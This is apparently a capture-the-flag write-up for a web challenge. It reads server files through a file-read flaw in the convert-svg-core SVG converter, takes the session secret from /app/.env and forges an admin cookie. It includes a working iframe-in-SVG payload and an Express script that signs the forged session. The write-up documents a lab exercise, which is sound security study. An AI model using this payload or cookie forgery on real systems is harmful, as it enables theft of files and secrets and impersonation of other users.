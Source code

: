 Register an account. (While people likely have tried "admin" as the username here, I didn't do that)

After pressing "Export TadPole Samples", the server returned an error with the *stack trace*.

```
TypeError: Cannot read properties of null (reading 'indexOf')
    at Converter.[convert] (/app/node_modules/convert-svg-core/src/Converter.js:191:25)
    at Converter.convert (/app/node_modules/convert-svg-core/src/Converter.js:114:40)
    at API.convert (/app/node_modules/convert-svg-core/src/API.js:80:32)
    at /app/routes/index.js:61:21
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:286:22
    at Function.process_params (/app/node_modules/express/lib/router/index.js:348:12)
```

This is very bad as **important information about the source code and dependencies can be leaked**, more specifically:
- The package convert-svg-core is used, and from [Snyk](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785) we can confirm that it is susceptible to *directory traveral* attacks, which means that I could access arbitrary file on the system allowed by the program's privilege.
- The error occurred at /app/routes/index.js.

To pull off the vuln, I created a simple helper function. Additionally, I increased the SVG's height to show more content as well as added a white background so that the images can be better viewed across platforms.
```
let doPayload = p => fetch(`/api/export`, {
		method: 'POST',
		headers: {
			'Content-Type': 'application/json',
		},
		body: JSON.stringify({
			svg: `<svg-dummy></svg-dummy>
<iframe src="file://${p}" width="100%" height="1500px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1500" xmlns="http://www.w3.org/2000/svg">
  <rect fill="white" width="100%" height="100%"/>
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>`
		}),
	})
	.then((response) => response.json())
		.then((data) => {
			if (data.hasOwnProperty('png')) {
				window.open(data.png);
			}
		})
	.catch((error) => {
		console.log(error);
	});
```

with `doPayload('/app/routes/index.js')` we get the page source code: (image cropped)
![image](https://user-images.githubusercontent.com/26480299/169437385-b7141003-e35e-4335-ae6f-741fabd101cf.png)

The following files should also be checked:
- /app/package.json
- /app/index.js
- /app/.env

From that we know that the key supplied to package `cookie-parser`. Cookie-parser stores both the session content and the cookie signature client-side:

![image](https://user-images.githubusercontent.com/26480299/169439066-b221f8d8-56e5-4f77-88a6-25e8363ebae6.png)
```
> atob("eyJ1c2VybmFtZSI6InRlc3QifQ==")
< '{"username":"test"}'
```

Usually cookies will store the expiry date and other details as well, but since this is a CTF, we can impersonate admin with the leaked key. I re-created the environment and created the admin session cookie.
```
const express      = require('express');
const session      = require('cookie-session');
const app          = express();
const cookieParser  = require('cookie-parser');
const nunjucks     = require('nunjucks');

app.use(express.json({limit: '2mb'}));
app.use(cookieParser());

require('dotenv').config({path: '/app/.env'})
app.use(session({
  name: 'session',
  keys: [process.env.SESSION_SECRET_KEY]
}))

nunjucks.configure('views', {
  autoescape: true,
  express: app
});

app.all('*', (req, res) => {
  req.session.username = 'admin';

  return res.status(404).send({
    message: 'auth success'
  });
});

(async () => {
  app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```
Log out and change the cookies.
![image](https://user-images.githubusercontent.com/26480299/169443927-b968b500-ed3e-47ec-8a1c-7d1ad0a8b033.png)

**Flag: HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}**

Remark: Someone has suggested that [Cookie Monster](https://www.npmjs.com/package/@digital-interruption/cookie-monster) can also be used but I haven't tried that.
